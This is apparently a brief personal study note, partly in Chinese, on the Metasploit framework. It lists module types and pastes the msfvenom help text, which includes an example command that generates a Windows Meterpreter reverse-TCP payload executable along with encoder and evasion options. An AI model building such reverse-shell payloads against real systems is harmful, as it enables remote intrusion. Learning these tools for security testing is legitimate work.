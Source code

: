 ## metersploit framework

subdomain扫域名

cap ip | sort |uniq  -c





msfdb



msfupdate



msf -a

x86_64==amd64









auxiliary 扫描

post        

encoder编码器



```sh
└─$ msfvenom                                                                                    
Error: No options
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
```